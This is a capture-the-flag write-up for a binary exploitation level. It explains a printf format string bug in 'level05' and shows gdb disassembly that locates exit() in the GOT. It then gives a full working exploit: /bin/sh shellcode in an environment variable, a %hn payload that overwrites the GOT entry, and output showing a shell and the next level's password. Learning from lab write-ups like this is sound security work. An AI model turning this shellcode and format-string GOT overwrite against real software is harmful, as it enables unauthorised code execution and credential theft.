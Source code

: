 1. Basically the program does a `tolower()` on each character. But it is f no use here

2. The vulnerability is a single format string, as the printf takes the buffer as argument instead of a format string.

3. The attack will consist in erasing the address of the `exit()` function in the GOT table at `0x80497e0` (see below), with the address of a shellcode located in an env variable :

when we disas the main, at the bottom :

```
...
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	mov    DWORD PTR [esp],0x0
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
```

Then we disass at address of exit:

```
(gdb) disas 0x08048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:	push   0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

and find the address of the exit function in the Global Offset Table.

4. The exploit:
    - We first create an env variable with 20 (random) NOP instructions (to make for the discrepancy between stack level in gdb and outside gdb) :

    ```
    export SHELLCODE=`python -c 'print("\x90"*20 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`
    ```

    - Then we find the address of this environment variable thanks to gdb:

    ```
    Breakpoint 1, 0x08048449 in main ()
    (gdb) x/30s (*(char**)environ)
    0xffffd85d: "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
    0xffffd8a9:	 "SHELL=/bin/bash"
    0xffffd8b9:	 "TERM=xterm-256color"
    ```

    So our Shellcode is at `0xffffd85d`. 

    - We will erase the instruction pointed to by `0x80497e0` with an address inside the NOP suite of instructions. So let's take `0xffffd86d` (+16 bytes)

    - We will use the %n modifier in printf to write, at the address of `exit()` in the GOT, the number of characters which corresponds to the address of our shellcode!

    - The buffer is located at $esp + 40 bytes. The argument of printf is at $esp. We will write teh first address to which we are going to write %n at the beginning of our buffer. It is therefore the `40 / 4 = 10th argument to printf`.

    - So we have to write `0xffffd86d at the address 0x80497e0`. But this **number is too large, we have to split it into 2 short int (written on 2 bytes**). We will therefore write `0xd86d or 55405` on the 2 bytes starting at `0x80497e0`, and `0xffff or 65535` on the 2 bytes starting at `0x80497e2`

    - our buffer: It will start with the address of the lower number to be written, followed by the 2nd address, then the corresponding modifiers:
        * 0x80497e0 => **4 bytes**
        * 0x80497e2 => **4 bytes**
        * %55397d  => **corresponds to `55405 - 8 bytes of already written characters`**
        * %10$hn => 10th argument, to get the address stored 40 bytes away in the stack (beginning of our buffer); `hn` is for `half-word or 2bytes (short int)`
        * %10130d => **corresponds to 65535 - 55405 characters already written**
        * %11$hn => 11th argument, the 2nd address

    - Payload and result:

    `(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55397d%10$hn" + "%10130d%11$hn")'; cat) | ./level05`
    
    ```
                                                                                                                                                                 -134415680
    whoami
    level06
    cat /home/users/level06/.pass
    h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
    ```


